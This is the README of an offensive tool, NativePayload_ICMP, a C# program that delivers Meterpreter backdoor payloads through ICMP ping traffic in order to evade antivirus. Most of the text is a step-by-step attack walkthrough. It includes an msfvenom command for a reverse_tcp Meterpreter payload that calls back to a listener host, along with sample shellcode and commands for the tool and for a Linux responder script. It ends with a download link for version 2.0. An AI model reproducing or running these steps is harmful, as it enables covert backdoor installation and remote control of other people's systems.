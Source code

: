 # NativePayload_ICMP v1.0
C# code Published by Damon Mohammadbagher

NativePayload_ICMP : transfer Backdoor Payloads by ICMPv4 Traffic and bypassing Anti-Viruses

Tested : Win7 SP1 and Win 2008 R2

step by step:

example step1 msfvenom --arch x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.50 -f c > payload.txt

note: copy your msfvenom output payloads to 'Payload string' like 'fc4883e4f0e8cc00000415141505265'

example step2 c:\\> NativePayload_ICMP.exe null "Payload string" > script.sh

example step2 c:\\> NativePayload_ICMP.exe null fc4883e4f0e8cc00000415141505265 > script.sh

example step3 c:\\> NativePayload_ICMP.exe ipaddress (sending ICMPv4 traffic to this ipaddress by ping)

example step3 c:\\> NativePayload_ICMP.exe 192.168.1.50 

example step4 linux side ./script.sh  (run this script in PING Responder linux system).

note: after chmod also adding #!/bin/bash to script.sh file , you can run this script in PING Responder system.

note: you should run this script in your linux after step3 for Response to PING traffic from backdoor system

note: Backdoor system is win with NativePayload_ICMP.exe and ipaddress for example: 192.168.1.120

note: PING Responder system is linux with ./script.sh and ipaddress for example : 192.168.1.50

note: PING Responder system is also Meterpreter Listener by ipaddress : 192.168.1.50

<summary>

in this case after 1020 ping request and response you have Meterpreter Session by ICMPv4

Dumping Payloads by TTL from PING Response...

Meterpreter Payload is 510 bytes

510 * 2 = 1020

 0 ... 1019 = 1020 Request
 
</summary>

# NativePayload_ICMP v2.0

NativePayload_ICMP v2.0 C# Code Released for Ebook. (May 2018 , bug fixed).

    NativePayload_ICMP.exe help :

NativePayload_ICMP.exe help

    NativePayload_ICMP.sh v1.0 "test version" syntax:

step0 Client-Side with ipv4 w.x.y.z , syntax :./NativePayload_ICMP.sh shtext "your text or string"

step1 Server-Side with ipv4 w1.x1.y1.z1 syntax :./NativePayload_ICMP.sh listen "w.x.y.z"

Note: in step1 you should use Client-side system w.x.y.z IPv4Address

help syntax : ./NativePayload_ICMP.sh help

Download "version 2.0 " here : https://github.com/DamonMohammadbagher/NativePayload_ICMP/tree/master/EBOOK
